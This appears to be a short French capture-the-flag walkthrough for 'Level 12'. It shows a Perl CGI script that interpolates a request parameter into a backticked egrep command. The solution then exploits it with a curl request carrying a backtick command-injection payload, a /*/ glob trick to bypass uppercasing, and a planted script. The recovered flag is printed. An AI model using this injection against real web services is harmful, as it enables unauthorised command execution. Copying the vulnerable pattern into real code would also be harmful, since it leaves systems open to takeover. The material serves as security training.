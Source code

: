 # LEVEL 12

```perl
#!/usr/bin/env perl

use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

Egrep execute un fichier dont le nom match le pattern `$xx` (c-a-d **en majuscule, sans espace**) \

On glisse la commande `getflag` dans un fichier qui suit ce pattern pour pouvoir `egrep` dessus:

on creer un fichier en lettres majuscules 'HAKERMAN.SH' et '/*/HAKERMAN.sh' pour que '/tmp/HAKERMAN.SH' soit convertit en  '/TMP/HAKERMAN.SH'

```
echo "getflag > /tmp/myprecious" > /tmp/HAKERMAN.SH
chmod +x /tmp/HAKERMAN.SH
curl '127.0.0.1:4646?x="`/*/HAKERMAN.SH`"'
cat /tmp/myprecious
g1qKMiRpXf53AWhDaU7FEkczr
```
